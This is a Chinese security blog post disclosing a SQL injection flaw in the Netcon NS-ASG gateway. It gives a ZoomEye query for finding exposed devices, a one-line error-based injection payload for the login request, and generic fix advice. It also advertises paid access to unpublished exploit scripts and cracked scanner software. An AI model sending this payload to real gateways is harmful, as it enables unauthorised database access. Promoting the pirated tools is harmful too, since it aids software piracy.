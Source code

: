 #  网康应用安全网关(NS-ASG) SQL注入漏洞   
原创 漏洞挖掘  渗透安全HackTwo   2024-01-06 10:53  
  
###   
#   
0x01 产品简介  
          
网康科技的NS-ASG应用安全网关是一款软硬件一体化的产品，集成了SSL和IPSec，旨在保障业务访问的安全性，适配所有移动终端，提供多种链路均衡和选择技术，支持多种认证方式灵活组合，以及内置短信认证、LDAP令牌、USB KEY等多达13种认证方式  
。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq4ZamW9PhfUmWRLMkr8bFkeXntcQ9VZ2wGyuULmLepy2UjmzXeRcdsK48odJzDnjo47cZkico3A9yQ/640?wx_fmt=png&from=appmsg "")  
  
末尾可领取资源  
#   
  
**今日星球新增1day/0day未公开漏洞-公告******  
  
> ****  
> 1.用友移动管理系统某接口文件上传漏洞  
  
> 2.jeecg漏洞合集POC  
> 3.蓝凌-EIS-漏洞合集POC  
>   
> **未公开漏洞1day、0day的POC及批量利用脚本后台回复"星球"加入内部获取！！**  
>   
>         声明，请自行搭建环境进行漏洞测试，该公众号分享的工具、项目、漏洞仅供安全研究与学习之用请勿用于非法行为，如用于其他用途，由使用者承担全部法律及连带责任，与作者和本公众号无关。  
>   
  
  
  
0x02 漏洞描述        SQL注入（SQLi）是一种网络安全漏洞，允许攻击者干扰应用程序对其数据库的查询。通过浏览器或者其他客户端将恶意SQL语句插入到网站参数中，而网站应用程序未对其进行过滤，SQL语句带入数据库使恶意SQL语句得以执行可以查看通常无法检索的数据。这可能包括属于其他用户的数据，或应用程序本身能够访问的任何其他数据。在许多情况下，攻击者可以修改或删除这些数据，从而导致应用程序的内容或行为发生持续变化。‍0x03 ZoomEye语法title:"网康-NS-ASG-应用安全网关"POCcheck_username=123&check_username1=123&check_passwd=123&action=login_check&check_VirtualSiteId=1/**/and/**/updatexml(1,concat(0x7e,(md5(123))),3)#&imgcode=undefined&selvalue=2&BackgroundName=background.gif0x04 修复建议1..对进入数据库的特殊字符（’”<>&*;等）进行转义处理，或编码转换。2.确认每种数据的类型，比如数字型的数据就必须是数字，数据库中的存储字段必须对应为int型。3.数据长度应该严格规定，能在一定程度上防止比较长的SQL注入语句无法正确执行。4.避免网站显示SQL错误信息，比如类型错误、字段不匹配等，防止攻击者利用这些错误信息进行一些判断。5.过滤危险字符，例如：采用正则表达式匹配union、sleep、and、select、load_file等关键字，如果匹配到则终止运行。0x05 内部福利介绍        需要加入内部知识星球可点击下方链接，内部包含但不限于网上未公开的1day/0day，2024最新企业SRC/CNVD/Edu实战挖掘技巧报告，红队外网打点、红队内网横向渗透。内部干货多及渗透思路很多，对新人友好，实战报告赏金几百到几千不等，加入圈子拥有FOFA、shadan、360Quake、ZoomEye、Hunter、CTFshow、Tide等等高级会员，安全培训教程，某机构红队教程，SRC挖掘培训课，SRC文档，武器库。圈子里面资料价值至少在10K以上，目前星球内部主题300+，资源2000+，其他和网盘资源1w+覆盖全网星球、纷传90%以上内容并持续更新中，越早加入价格越低。(详情点击下方地址了解-->>还是觉得价格贵的师傅后台回复" 星球 "有优惠券使用名额有限先到先得)点击了解-->>内部VIP知识星球福利介绍V1.2版本-元旦优惠  
  
****  
结尾  
  
# 免责声明  
  
  
# 获取方法  
  
  
**关注领取资源：**  
  
  
回复“app" 获取  app渗透和app抓包教程  
  
回复“渗透字典" 获取 针对一些字典重新划分处理，收集了几个密码管理字典生成器用来扩展更多字典的仓库。  
  
回复“书籍" 获取 网络安全相关经典书籍电子版pdf  
  
  
**压缩包解压密码：HackTwo**  
  
********  
  
# 最后必看  
  
  
    本工具或文章仅面向合法授权的企业安全建设行为，如您需要测试内容的可用性，请自行搭建靶机环境，如果你学习了该文章内容需要测试请自行搭建靶机环境，勿用于非法行为。  
  
  
    为避免被恶意使用，本项目所有收录的poc均为漏洞的理论判断，不存在漏洞利用过程，不会对目标发起真实攻击和漏洞利用。  
  
  
      
  
文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担。  
  
  
    在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。  
  
  
    如您在使用本工具或阅读文章的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。本工具或文章来源于网络，若有侵权请联系作者删除，请在24小时内删除，请勿用于商业行为，自行查验是否具有后门，切勿相信软件内的广告！  
  
  
****  
  
  
  
# 往期推荐  
  
  
**1. 内部VIP知识星球福利介绍V1.2版本-元旦优惠**  
  
**2. 最新BurpSuite2023.12.1专业版中英文版下载**  
  
[3. 最新Nessus2023下载Windows/Linux](http://mp.weixin.qq.com/s?__biz=Mzg3ODE2MjkxMQ==&mid=2247484713&idx=1&sn=0fdab59445d9e0849843077365607b18&chksm=cf16a399f8612a8f6feb8362b1d946ea15ce4ff8a4a4cf0ce2c21f433185c622136b3c5725f3&scene=21#wechat_redirect)  
  
  
[4. 最新xray1.9.11高级版下载Windows/Linux](http://mp.weixin.qq.com/s?__biz=Mzg3ODE2MjkxMQ==&mid=2247483882&idx=1&sn=e1bf597eb73ee7881ae132cc99ac0c8e&chksm=cf16a75af8612e4c73eda9f52218ccfc6de72725eb37aff59e181435de095b71e653b446c521&scene=21#wechat_redirect)  
  
  
[5. 最新HCL AppScan Standard 10.2.128273破解版下载](http://mp.weixin.qq.com/s?__biz=Mzg3ODE2MjkxMQ==&mid=2247483850&idx=1&sn=8fad4ed1e05443dce28f6ee6d89ab920&chksm=cf16a77af8612e6c688c55f7a899fe123b0f71735eb15988321d0bd4d14363690c96537bc1fb&scene=21#wechat_redirect)  
  
  
  
###### 渗透安全HackTwo  
  
  
微信号：关注公众号获取  
  
后台回复星球加入：  
知识星球  
  
扫码关注 了解更多  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq6qFFAxdkV2tgPPqL76yNTw38UJ9vr5QJQE48ff1I4Gichw7adAcHQx8ePBPmwvouAhs4ArJFVdKkw/640?wx_fmt=png "二维码")  
  
  
  
喜欢的朋友可以点赞转发支持一下  
  
  
